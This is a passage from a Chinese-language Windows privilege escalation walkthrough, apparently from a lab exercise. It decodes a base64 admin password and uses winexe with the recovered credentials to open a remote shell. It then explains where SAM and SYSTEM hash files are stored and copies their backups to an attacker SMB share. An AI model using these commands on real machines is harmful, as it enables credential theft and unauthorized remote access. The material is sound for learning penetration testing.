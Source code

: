 ### 3. 发现了管理员用户的账号密码

![image-20210709143447091](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ea4eafca0c25ef87f78d3afca48a7d552b9e9a09.png)

它是base64编码的

```php
cGFzc3dvcmQxMjM=Admin
```

### 4. 在kali进行解码：

```php
echo "cGFzc3dvcmQxMjM=" | base64 -d
```

![image-20210709143623196](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fe1032d8eaf65ce0d36ae37405ac4e9470d5e72d.png)

### 5. 使用winexe进行反弹shell

```php
winexe -U 'admin%password123' //192.168.175.245 cmd.exe
```

![image-20210709143744026](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0546d447b03c80019e1bd184a714c070087d8f4d.png)

SAM
---

### 前言

Windows 在安全帐户管理器 （SAM） 中存储密码。

这些哈希用一个密钥加密，该密钥可以在SYSTEM的文件中找到。

如果您有能力读取SAM和系统文件，则可以提取哈希

### SAM/SYSTEM Locations

SAM和SYSTEM文件位于`C:\Windows\System32\config directory`

在 Windows 运行时，文件已锁定。

文件的备份可能存在于`C:\Windows\Repair` or `C:\Windows\System32\config\RegBack directories`

### 实操

#### 1. SAM和SYSTEM文件的备份进行读取

#### 2. 进行复制

```php
copy C:\Windows\Repair\SAM  \\192.168.175.130\tools\ copy C:\Windows\Repair\SYSTEM  \\192.168.175.130\tools\
```
